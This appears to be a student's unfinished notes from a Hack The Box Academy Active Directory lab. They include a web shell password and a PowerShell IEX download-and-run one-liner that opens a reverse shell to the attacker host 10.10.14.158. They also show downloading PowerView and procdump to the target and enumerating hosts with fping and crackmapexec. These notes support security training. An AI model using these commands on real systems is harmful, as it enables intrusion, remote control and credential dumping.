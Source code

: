 
admin:My_W3bsH3ll_P@ssw0rd!

## Setup Reverse shell:
```## **On your Kali machine:**

- Host the script: in this directory: /usr/share/nishang/Shells/Invoke-ConPtyShell.ps1

    python3 -m http.server 8000
    
- Set up your listener (with raw mode for best results):

	stty raw -echo; (stty size; cat) | nc -lvnp 9001
    
## **On the Windows target (from your current shell):**
- Run this PowerShell command (replace `KALI_IP` and `9001` with your values):
```

```powerShell
IEX(IWR http://10.10.14.158:8000/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.158 9001
```

### To get powerview on Kali machine:
```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
```

^^ To get the file on Windows:
```
Invoke-WebRequest -Uri "http://10.10.14.158:8000/PowerView.ps1" -OutFile "C:\TEMP\PowerView.ps1"
```

## Domain Controller:
DC01:172.16.6.3

Invoke-WebRequest -Uri "http://10.10.14.158:8000/procdump.exe" -OutFile "C:\TEMP\procdump64.exe"


## MS01:172.16.6.50


# Skills 2.0
1. RDP: xfreerdp /v:10.129.225.154 /u:htb-student /p:HTB_@cademy_stdnt! 
2. SSH: ssh htb-student@10.129.225.154

#### Let's find other hosts on the domain:
Looking at `ip a` output, let's try the subnet below:
`fping -asgq 172.16.7.0/23`

This found 
```
172.16.7.3:DC01
172.16.7.50:MS01
172.16.7.60:SQL01
172.16.7.240
```

Let's try to nmap these hosts:
`sudo nmap `




3. `crackmapexec smb 10.129.225.154` -> Nothing
4. Nmap scan
	1. 